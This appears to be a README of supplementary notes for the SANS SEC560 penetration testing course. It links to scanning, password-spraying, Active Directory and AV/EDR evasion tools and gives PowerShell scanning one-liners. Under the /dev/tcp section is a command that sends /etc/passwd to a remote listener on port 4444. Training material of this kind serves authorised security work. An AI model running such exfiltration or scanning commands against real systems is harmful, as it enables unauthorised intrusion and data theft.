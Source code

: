 # 560-Extras
Notes and other extras related to SANS SEC560

## Day 1


## Day 2


### Proxying traffic and rotating source IP
https://github.com/ustayready/fireprox (more for web traffic, but always worth mentioning)

https://github.com/blacklanternsecurity/TREVORproxy

https://github.com/Shellntel/scripts/blob/master/proxyCannon.py


### PktMon - Windows native packet capture

https://learn.microsoft.com/en-us/windows-server/networking/technologies/pktmon/pktmon


### Other port and host scanning options

RustScan: https://github.com/RustScan/RustScan

How to write a port scanner in Go: https://github.com/jboursiquot/portscan

PowerShell ping sweep example: 
```
1..60 | % {echo $_; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}
```

PowerShell port scan example: 
```
70..90 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.50",$_)) "Port $_ is open" } 2>$null
```

### Bash /dev/tcp fun

Connect to a port: 
```
echo "" > /dev/tcp/142.250.138.139/443
```

Send a file: 
```
cat /etc/passwd > /dev/tcp/10.10.10.10/4444
```

### All the cats

Powercat: https://github.com/besimorhino/powercat

Nmap's ncat: https://nmap.org/ncat/

pwncat, "python netcat on steroids": https://github.com/cytopia/pwncat

socat: https://linux.die.net/man/1/socat

lolcat (lol): https://github.com/busyloop/lolcat

Awesome lolcat from Jeff McJunkin:
```
while true; do fortune | cowsay -f $(find /usr/share/cowsay/cows/ -type f | sort -R | head -n1) |
lolcat -a -s 40; sleep 2; done
```

Can use telnet, too (although it is not a cat): telnet ip port


### NSE script using the Vulners.com API

https://github.com/vulnersCom/nmap-vulners


### Auto-updated wordlist for pw guessing based on current, relevant seasons, months, and year

http://weakpasswords.net/


### Skull Security for useful lists

https://wiki.skullsecurity.org/index.php/Passwords


### Password Spraying

DomainPasswordSpray: https://github.com/dafthack/DomainPasswordSpray/

SprayingToolkit: https://github.com/byt3bl33d3r/SprayingToolkit

TrevorSpray: https://github.com/blacklanternsecurity/TREVORspray


## Day 3

### Verizon Data Breach Investigation Report

https://www.verizon.com/business/resources/reports/dbir/


### Living off the land

Windows: https://lolbas-project.github.io/

Linux: https://gtfobins.github.io/


### PowerShell command history files

%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine


### Daily builds of various C# security tools

https://github.com/Flangvik/SharpCollection


### Custom Bloodhound queries

https://github.com/hausec/Bloodhound-Custom-Queries


### Python Bloodhound ingestor

https://github.com/fox-it/BloodHound.py


### Analyze group policy for issues, vulnerabilities:

https://github.com/Group3r/Group3r


## Day 4


### AV Bypass

DefenderCheck: https://github.com/matterpreter/DefenderCheck

AMSITrigger: https://github.com/RythmStick/AMSITrigger

https://vanmieghem.io/blueprint-for-evading-edr-in-2022/

https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html

https://github.com/TheWover/donut

Talk the Windows API directly with PowerShell: https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1/

## Day5
